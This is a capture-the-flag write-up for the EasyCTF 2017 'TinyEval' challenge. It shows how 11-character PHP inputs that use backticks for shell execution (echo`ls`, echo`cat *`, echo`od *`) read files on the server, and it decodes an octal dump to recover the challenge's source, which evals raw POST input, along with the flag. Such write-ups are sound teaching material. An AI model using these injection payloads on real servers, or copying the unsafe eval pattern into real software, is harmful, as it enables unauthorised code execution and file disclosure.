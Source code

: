 # TinyEval - 100 points

This [page](http://tinyeval.web.easyctf.com) will evaluate anything you give it.

### Solutions

In this problem, we are basically allowed to execute PHP code on the server, but only if it’s 11 or less characters. Of course, each call is independent from each other.

In PHP, text between backticks are executed as shell commands. We can see everything in the directory by entering:

```
echo`ls`
```

It turns out that there’s a file called flag.txt in the same directory, and our goal is to view its contents.

The normal solution to this problem would probably be to enter:

```
echo`cat *`
```

The star, which will return every file, is necessary for staying under the character limit. This results in an output showing the contents of everything in the directory, including the flag.

However, there’s a cooler solution that can be done in 10 characters:

```
echo`od *`
```

od essentially dumps data from files in printable formats. In this context, it will print all the files in the directory in an octal dump.

We can decode the data by converting each octal section into two bytes, which are stored in little-endian format:

```python
# only 6 character sections are data
a = '0000000 051106 046517 072040 072165 066565 066057 066541 035160 0000020 060554 062564 072163 042412 050130 051517 020105 030070 0000040 051012 047125 071440 062145 026440 020151 071447 040457 0000060 066154 073557 073117 071145 064562 062544 043040 066151 0000100 044545 063156 027557 066101 067554 047567 062566 071162 0000120 062151 020145 066101 027554 020047 062457 061564 060457 0000140 060560 064143 031145 071457 072151 071545 062455 060556 0000160 066142 062145 030057 030060 062055 063145 072541 072154 0000200 061456 067157 005146 052522 020116 031141 067145 067555 0000220 020144 062562 071167 072151 005145 052522 020116 066562 0000240 026440 063162 027440 070141 027560 005052 047503 054520 0000260 027040 027440 070141 027560 051012 047125 062440 064143 0000300 020157 047442 072160 067551 071556 026440 067111 062544 0000320 062570 056163 021156 037040 027040 072150 061541 062543 0000340 071563 041412 042115 023440 071057 067165 071456 023550 0000360 060545 074563 072143 075546 072151 071447 031137 030460 0000400 057467 067141 057504 062567 071047 057545 072163 066151 0000420 057554 071565 067151 057547 044120 037520 037477 005175 0000440 070074 043476 073151 020145 062555 071440 066557 072145 0000460 064550 063556 072040 020157 073145 066141 036041 070057 0000500 005076 036012 070077 070150 064412 020146 064450 071563 0000520 072145 022050 050137 051517 055524 061447 062155 056447 0000540 024451 075440 020012 020040 022040 066543 020144 020075 0000560 057444 047520 052123 023533 066543 023544 035535 020012 0000600 020040 064440 020146 071450 071164 062554 024156 061444 0000620 062155 020051 020076 030461 020051 005173 020040 020040 0000640 020040 020040 061545 067550 021040 067563 071162 026171 0000660 074440 072557 020162 072163 064562 063556 064440 020163 0000700 067564 020157 067554 063556 035040 021050 005073 020040 0000720 020040 020175 066145 062563 075440 020012 020040 020040 0000740 020040 062440 064143 020157 073145 066141 022050 066543 0000760 020144 020056 035442 024442 005073 020040 020040 005175 0001000 005175 037077 005012 063074 071157 020155 062555 064164 0001020 062157 070075 071557 037164 036012 067151 072560 020164 0001040 074564 062560 072075 074145 020164 060556 062555 061475 0001060 062155 005076 064474 070156 072165 072040 070171 036545 0001100 072563 066542 072151 005076 027474 067546 066562 000076 0001117'
a = a.split(' ')
o = ''
for c in a:
    if len(c) == 6:
        t = bin(int(c,8))[2:].zfill(16)
        o += chr(int(t[8:],2))+chr(int(t[:8],2))
```

The result contains the flag:

```
FROM tutum/lamp:latest
EXPOSE 80
RUN sed -i 's/AllowOverride FileInfo/AllowOverride All/' /etc/apache2/sites-enabled/000-default.conf
RUN a2enmod rewrite
RUN rm -rf /app/*
COPY . /app/
RUN echo "Options -Indexes\n" > .htaccess
CMD '/run.sh'easyctf{it's_2017_anD_we're_still_using_PHP???}
<p>Give me something to eval!</p>

<?php
if (isset($_POST['cmd'])) {
    $cmd = $_POST['cmd'];
    if (strlen($cmd) > 11) {
        echo "sorry, your string is too long :(";
    } else {
        echo eval($cmd . ";");
    }
}
?>

<form method=post>
<input type=text name=cmd>
<input type=submit>
</form>
```

flag: easyctf{it's_2017_anD_we're_still_using_PHP???}

### External Writeups

* [defund's writeup](https://defund.io/post/easyctf-2017-writeups/)
* [https://www.bamsoftware.com/computers/easyctf-2017/#tinyeval](https://www.bamsoftware.com/computers/easyctf-2017/#tinyeval)
